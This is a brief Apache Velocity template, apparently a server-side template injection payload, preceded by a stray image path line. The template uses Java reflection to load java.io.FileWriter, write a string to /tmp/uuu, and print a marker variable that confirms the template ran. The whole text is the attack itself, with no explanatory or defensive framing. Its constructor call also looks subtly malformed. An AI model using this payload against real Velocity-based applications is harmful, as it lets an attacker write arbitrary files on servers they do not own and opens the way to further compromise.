 #set( $monkey = '888888888888888888888888=========99999999999999999999999' )
$monkey
#set ($e="exp")
#set ($a=$e.getClass().forName("java.io.FileWriter"))
#set ($b = $a.FileWriter("/tmp/uuu"))
#set ($c = $b.write("zzz"))
#set ($d = $b.flush())
#set ($e = $b.close())
$monkey
